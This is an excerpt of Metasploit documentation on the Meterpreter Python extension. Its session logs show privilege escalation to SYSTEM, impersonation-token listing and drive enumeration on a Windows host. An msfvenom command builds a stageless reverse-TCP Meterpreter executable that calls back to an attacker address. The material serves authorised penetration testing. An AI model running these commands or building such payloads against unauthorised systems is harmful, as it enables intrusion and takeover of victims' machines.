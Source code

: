 ### Bindings example

```
meterpreter > getuid
Server username: WIN-TV01I7GG7JK\oj
meterpreter > python_execute "import meterpreter.user; print meterpreter.user.getuid()"
[+] Content written to stdout:
WIN-TV01I7GG7JK\oj

meterpreter > python_execute "import meterpreter.elevate; meterpreter.elevate.getsystem()"
[+] Command executed without returning a result
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > python_execute "meterpreter.elevate.rev2self(); print meterpreter.user.getuid()"
[+] Content written to stdout:
WIN-TV01I7GG7JK\oj

meterpreter > use incognito
Loading extension incognito...success.
meterpreter > python_execute "import meterpreter.incognito; print meterpreter.incognito.list_user_tokens()"
[+] Content written to stdout:
{'Delegation': ['NT AUTHORITY\\LOCAL SERVICE', 'NT AUTHORITY\\NETWORK SERVICE', 'NT AUTHORITY\\SYSTEM', 'WIN-TV01I7GG7JK\\oj'], 'Impersonation': ['NT AUTHORITY\\ANONYMOUS LOGON']}

meterpreter > python_execute "import meterpreter.fs; print meterpreter.fs.show_mount()"
[+] Content written to stdout:
[{'Name': 'A:\\', 'SpaceUser': None, 'SpaceTotal': None, 'UNC': None, 'SpaceFree': None, 'Type': 2}, {'Name': 'C:\\', 'SpaceUser': 28950585344L, 'SpaceTotal': 64422408192L, 'UNC': None, 'SpaceFree': 28950585344L, 'Type': 3}, {'Name': 'D:\\', 'SpaceUser': None, 'SpaceTotal': None, 'UNC': None, 'SpaceFree': None, 'Type': 5}]
```
Each of the examples above just show the results printed to stdout, however the values are returned as Python dictionaries and can be operated on just like normal variables.

## Stageless Initialisation

Not only can the extension be baked into a stageless Meterpreter, like any other extension, it also has the ability to run an arbitrary script before the Meterpreter session is even established! Consider the following script:
```
$  cat /tmp/met.py
import meterpreter.transport
meterpreter.transport.add("tcp://127.0.0.1:8000")
```
This is a simple script that uses the Meterpreter bindings to add a new transport to the list of transports. This is executed immediately before Meterpreter attempts to create a connection back to Metasploit for the first time. The intent is to show that it's possible to add any number of transports on startup.

To create a stageless payload that uses this script, we can make use of the `EXTINIT` parameter in `msfvenom`:
```
$ msfvenom -p windows/meterpreter_reverse_tcp LHOST=172.16.52.1 LPORT=4445 EXTENSIONS=stdapi,priv,python EXTINIT=python,/tmp/met.py -f exe -o /tmp/met-stageless.exe
No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 6412437 bytes
Saved as: /tmp/met-stageless.exe
```
When this payload is executed, the transport is added and shown to be present in the transport list immediately:
```
```

  [transport]: https://docs.metasploit.com/docs/using-metasploit/advanced/meterpreter/meterpreter-transport-control.html
  [inveigh]: https://github.com/Kevin-Robertson/Inveigh